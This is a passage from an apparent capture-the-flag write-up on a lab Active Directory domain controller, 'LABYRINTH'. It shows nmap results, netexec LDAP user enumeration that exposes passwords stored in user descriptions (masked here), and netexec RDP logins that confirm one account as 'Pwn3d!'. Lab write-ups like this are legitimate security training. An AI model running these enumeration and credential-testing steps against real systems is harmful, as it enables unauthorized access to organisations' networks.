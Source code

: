 ```
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
|_ssl-date: 2025-05-03T15:00:32+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: THM
|   NetBIOS_Domain_Name: THM
|   NetBIOS_Computer_Name: LABYRINTH
|   DNS_Domain_Name: thm.local
|   DNS_Computer_Name: labyrinth.thm.local
|   Product_Version: 10.0.17763
|_  System_Time: 2025-05-03T15:00:24+00:00
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Issuer: commonName=labyrinth.thm.local
```

Also, the scan discloses the domain name and the host name of the domain controller. The domain is `thm.local` and the host name `LABYRINTH`.

## Initial Access

The first thing I did is enumerating the domain controller for users and policies. To accomplish this, you can use `netexec` and query LDAP which allows you to query user information.

```terminal
nxc ldap 10.10.214.56 -u "a" -p "" --users
```

**Note:** The command above will return a massive amount of users, descriptions and additional information, the lines below are only the important ones.

In the output of the command, there are two users who seem to have requested a password reset, as indicated by the text and password included in their descriptions.

```
LDAP        10.10.214.56    389    LABYRINTH        IVY_WILLIS                    2023-05-30 12:30:55 0       Please change it: ************
LDAP        10.10.214.56    389    LABYRINTH        SUSANNA_MCKNIGHT              2023-07-05 15:11:32 0       Please change it: ************
```

Next I checked if one of the users has access to RDP and potentially can login and get a shell. For that you can first try to gather information using bloodhound, but this time you can simply check it using the command line and don't need to go through the complex process of setting up bloodhound. I simply tried it with `netexec`:

```terminal
$nxc rdp 10.10.214.56 -u "IVY_WILLIS" -p "************"
RDP         10.10.214.56    3389   LABYRINTH        [*] Windows 10 or Windows Server 2016 Build 17763 (name:LABYRINTH) (domain:thm.local) (nla:True)
RDP         10.10.214.56    3389   LABYRINTH        [+] thm.local\IVY_WILLIS:************ 
$nxc rdp 10.10.214.56 -u "SUSANNA_MCKNIGHT" -p "************"
RDP         10.10.214.56    3389   LABYRINTH        [*] Windows 10 or Windows Server 2016 Build 17763 (name:LABYRINTH) (domain:thm.local) (nla:True)
RDP         10.10.214.56    3389   LABYRINTH        [+] thm.local\SUSANNA_MCKNIGHT:************ (Pwn3d!)
```
